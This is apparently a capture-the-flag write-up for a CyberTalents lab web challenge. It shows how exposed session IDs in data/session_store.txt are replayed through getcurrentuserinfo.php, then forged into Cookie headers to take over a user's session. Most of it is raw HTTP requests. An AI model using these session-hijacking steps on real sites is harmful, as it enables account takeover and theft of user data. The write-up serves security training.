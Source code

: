 - view source 
```
  <script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
    </script>
```
- there is interesting nulls in `getcurrentuserinfo.php` XD
- lets try to add `Cookie: PHPSESSID=abc`
```
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Mon, 16 Oct 2023 22:47:41 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 43

Session not found in data/session_store.txt
```
- visit `data/session_store.txt`
- you will find some sessions, try every one of them with  `getcurrentuserinfo.php` like
```
POST /getcurrentuserinfo.php HTTP/1.1
Host: web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded 
Content-Length: 36

PHPSESSID=<ThePhpinSessioninTheFiles>
```
- it will provide you with the needed information
- visit index then
```
GET / HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqw1y3eq9ypfx3m-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=<ThePhpinSessioninTheFiles>; UserInfo=<theNameOfUser>;
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
